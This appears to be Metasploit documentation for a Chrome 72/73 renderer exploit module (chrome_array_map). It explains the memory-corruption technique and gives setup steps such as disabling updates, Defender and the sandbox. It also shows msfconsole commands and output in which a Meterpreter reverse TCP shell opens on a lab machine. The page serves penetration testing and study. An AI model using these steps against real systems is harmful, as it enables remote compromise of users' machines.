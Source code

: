 This module exploits an issue in Chrome 73.0.3683.86 (64 bit). The exploit corrupts the length of a float in order to modify the backing store of a typed array. The typed array can then be used to read and write arbitrary memory. 
The exploit then uses WebAssembly in order to allocate a region of RWX memory, which is then replaced with the payload.

**The payload is executed within the sandboxed renderer process, so the browser must be run with the --no-sandbox option for the payload to work correctly.**

## Vulnerable Application

The module is compatible with any 64bit Google Chrome (version 72 or 73), on any platform (macOS, Linux or Windows), however the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_73.0.3683.86-21785/](https://www.filepuma.com/download/google_chrome_64bit_73.0.3683.86-21785/)

You should ensure that application does not update itself to the latest version (by disabling automatic updates or simply not connecting to the internet).
You may also need to disable Windows Defender.

## Verification Steps

1. Do: ```use exploit/multi/browser/chrome_array_map```
2. Do: ```set payload windows/x64/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Scenarios

### Windows 10 and Google Chrome 73.0.3683.86 with --no-sandbox

Start Google Chrome without a sandbox:
```"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox```

```
msf > use exploit/multi/browser/chrome_array_map
msf exploit(multi/browser/chrome_array_map) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(multi/browser/chrome_array_map) > set URIPATH /
URIPATH => /
msf exploit(multi/browser/chrome_array_map) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/chrome_array_map) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(multi/browser/chrome_array_map) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/browser/chrome_array_map) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_array_map - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49675) at 2020-02-29 15:07:06 +0800

msf exploit(multi/browser/chrome_array_map) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\73.0.3683.86
meterpreter >
```
